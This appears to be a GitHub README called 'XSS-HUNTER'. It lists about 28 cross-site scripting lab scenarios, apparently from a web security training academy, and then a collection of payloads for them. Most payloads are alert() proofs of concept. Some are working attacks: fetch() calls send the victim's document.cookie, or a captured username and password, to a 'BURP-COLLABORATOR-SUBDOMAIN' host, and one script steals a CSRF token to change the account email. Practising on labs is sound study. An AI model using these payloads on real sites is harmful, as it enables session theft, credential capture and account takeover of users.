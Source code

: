 # XSS-HUNTER

## Case XSS
1. Reflected XSS into HTML context with nothing encoded
2. Stored XSS into HTML context with nothing encoded
3. DOM XSS in document.write sink using source location.search
4. DOM XSS in innerHTML sink using source location.search
5. DOM XSS in jQuery anchor href attribute sink using location.search source
6. DOM XSS in jQuery selector sink using a hashchange event
7. Reflected XSS into attribute with angle brackets HTML-encoded
8. Stored XSS into anchor href attribute with double quotes HTML-encoded
9. Reflected XSS into a JavaScript string with angle brackets HTML encoded
10. DOM XSS in document.write sink using source location.search inside a select element
11. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
12. Stored DOM XSS
13. Reflected XSS into HTML context with most tags and attributes blocked
14. Reflected XSS into HTML context with all tags blocked except custom ones
15. Reflected XSS with some SVG markup allowed
16. Reflected XSS in canonical link tag
17. Reflected XSS into a JavaScript string with single quote and backslash escaped
18. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
19. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
20. Exploiting cross-site scripting to steal cookies
21. Exploiting cross-site scripting to capture passwords
22. Exploiting XSS to perform CSRF
23. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
24. Reflected XSS with AngularJS sandbox escape without strings
25. Reflected XSS with AngularJS sandbox escape and CSP
26. Reflected XSS with event handlers and href attributes blocked
27. Reflected XSS protected by very strict CSP, with dangling markup attack
28. Reflected XSS protected by CSP, with CSP bypass


## Payload
Reflected XSS
1. ```<script>alert(1)</script>```
2. ```"><svg onload=alert(1)>```
3. ```<img src=1 onerror=alert(1)>```
4. ```<img src="x" onerror="alert(document.cookie)">```
5. ```javascript:alert(document.cookie)```
6. ```<img src=1 onerror=print()>```
7. ```"onmouseover="alert(1)```
8. ```javascript:alert(1)```
9. ```'-alert(1)-'```
10. ```product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>```
11. ```{{$on.constructor('alert(1)')()}}```
12. ```\"-alert(1)}//```
13. ```<><img src=1 onerror=alert(1)>```
14. ```<iframe src="https://YOUR-LAB-ID.com/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>```
15. ```<script>location = 'https://YOUR-LAB-ID.com?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script>```
16. ```/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E```
17. ```/?%27accesskey=%27x%27onclick=%27alert(1)```
18. ```</script><script>alert(1)</script>```
19.  ```\'-alert(1)//```
20. ```http://foo?&apos;-alert(1)-&apos;```
21. ```<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">```
221. ```<script>var req = new XMLHttpRequest();req.onload = handleResponse;req.open('get','/my-account',true);req.send();function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')};</script>```
22. ```<script>fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>```
23. ```${alert(1)}```
24. ```/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1```
25. ```<script>location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';</script>. ```
26. ```?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E```
27. ```/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27```
28. ```?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27```

